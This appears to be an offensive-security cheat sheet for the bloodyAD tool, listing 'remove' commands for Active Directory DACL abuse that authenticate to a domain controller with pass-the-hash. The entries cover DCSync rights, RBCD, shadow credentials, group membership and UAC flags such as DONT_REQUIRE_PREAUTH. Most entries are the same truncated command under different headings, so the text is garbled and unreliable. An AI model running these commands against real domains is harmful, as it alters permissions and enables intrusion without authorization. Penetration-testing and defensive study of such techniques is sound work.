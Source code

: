 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE


## remove - DCSync (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> remove  
```
## remove - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> remove  
```
## remove - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> remove  
```
## remove - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> remove  
```
## remove - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> remove  
```
## remove - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> remove  
```
## remove - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> remove  
```
## remove - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> remove uac <target_sAMAccountName> -f <uac_flag|DONT_REQUIRE_PREAUTH>
```

